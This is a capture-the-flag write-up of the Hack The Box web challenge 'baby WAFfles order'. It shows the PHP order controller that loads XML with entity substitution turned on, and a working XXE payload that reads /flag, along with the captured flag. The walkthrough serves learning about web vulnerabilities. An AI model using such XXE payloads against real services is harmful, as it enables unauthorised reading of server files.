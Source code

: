 # baby WAFfles order
> Write-up author: jon-brandy
## DESCRIPTION:
Our WAFfles and ice scream are out of this world, come to our online WAFfles house and check out our super secure ordering system API!
## HINT:
- NONE
## STEPS:
1. First, open the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209812644-460c5cf9-48be-4ec2-9dd1-a6a288c16413.png)


2. Let's try to order `ICE SCREAM` for table number 1.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209812736-cb17542c-46d5-4f95-90fc-e714f2aaa87d.png)

3. Actually didn't see any change.
4. Notice the web's title named `xxe`. Hence we may do XML injection (?)
5. Let's use burpsuite to play with the request.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209816372-983772e8-3c64-40bd-9d96-a876a8cc8a20.png)


6. Let's try to order "ice scream" for table 1, and open the request in burpsuite.

![image](https://user-images.githubusercontent.com/70703371/209816516-daa9fbb5-c706-4c4e-9114-3240b4fa04c5.png)


7. Now send the request to **repeater**.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209816595-ef35fc14-8115-4668-b088-344d82fe8156.png)


8. I used a payload from [this](https://github.com/payloadbox/xxe-injection-payload-list) online cheatsheet.
9. Let's use this one.

![image](https://user-images.githubusercontent.com/70703371/209822200-0d7b4a61-3eee-4d16-9416-036a8ad31e1a.png)

10. But, we need to find the correct html tag and modify some of the payload.
11. When i tried traverse the directory which have the source codes, looking for the correct tag.
12. Found OrderController.php.

```php
<?php
class OrderController
    public function order($router)
    {
        $body = file_get_contents('php://input');
        if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/json')
        {
            $order = json_decode($body);
            if (!$order->food) 
                return json_encode([
                    'status' => 'danger',
                    'message' => 'You need to select a food option first'
                ]);
            return json_encode([
                'status' => 'success',
                'message' => "Your {$order->food} order has been submitted successfully."
            ]);
        }
        else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
        else
        {
            return $router->abort(400);
        }
    }

```

13. I can assume that order and food are our entities. But since there's a table number as the placeholder, let's add that too.

![image](https://user-images.githubusercontent.com/70703371/209822478-5097a955-785f-4321-9fc5-db8145780855.png)


14. Let's try with:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///flag"> ]>
<order>
  <table_num>1</table_num>
 <food>&ent;</food>
</order>
```

15. And change the `content-type` value to -> **application/xml**, then send the request.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209825775-16b8a567-3011-423b-ba2e-fc909b9f51eb.png)


![image](https://user-images.githubusercontent.com/70703371/209825881-64365faa-44bb-4b11-8e2c-36f9fa0637b6.png)


16. Got the flag!

## FLAG

```
HTB{wh0_l3t_th3_XX3_0ut??w00f..w00f..w00f..WAFfles!}
```

## LEARNING REFERENCES:

```
https://github.com/payloadbox/xxe-injection-payload-list
```
